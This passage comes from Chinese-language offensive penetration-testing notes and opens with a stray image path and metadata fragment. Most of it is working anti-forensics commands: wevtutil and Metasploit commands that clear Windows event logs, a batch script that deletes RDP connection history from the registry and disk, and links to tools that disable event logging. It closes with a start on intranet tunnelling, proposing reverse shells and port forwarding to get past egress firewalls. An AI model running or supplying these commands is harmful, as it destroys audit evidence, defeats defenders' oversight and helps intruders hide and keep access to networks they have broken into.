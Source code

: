 查看指定日志的具体内容：

```
wevtutil qe /f:text "windows powershell"
```

删除单个日志类别的所有信息：

```
wevtutil cl "windows powershell"
```

### 破坏Windows日志记录功能

利用工具

- [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m)
- [Windwos-EventLog-Bypass](https://github.com/3gstudent/Windwos-EventLog-Bypass)

### Metasploit

```
run clearlogs 
clearev 
```

### 3389登陆记录清除

```
@echo off
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
@del "%USERPROFILE%\My Documents\Default.rdp" /a
@exit
```

# 15.内网穿透

**区分正向代理与反向代理**

A—-b—-C

```
A去请求C,B作为代理，代替A去访问C，并将返回的结果转发给A   那么B就是正向代理
B主动与A的8888端口连接，并将A:8888的访问转发到C:80上去，并将结果转发给A,则B是反向代理
反向代理优势: 当AB之间有防火墙，不允许A连B,但是允许B连A
```

#### 0x01 场景与思路分析

###### 场景一：内网防火墙对出口流量没有任何端口限制

思路 **：由于防火墙对出口流量没有任何端口限制，我们的可选择的方案非常灵活，如：反弹shell**

###### 场景二：内网防火墙仅允许内网主机访问外网的特定端口（如：80, 443）

思路：由于防火墙仅允许部分特定外网端口可以访问，思路一仍然是反弹shell只不过目标端口改成特定端口即可；思路二则是端口转发，将内网主机的某些服务的端口转发到外网攻击主机上的防火墙允许的特定端口上，再通过连接外网主机上的本地端口来访问内网服务
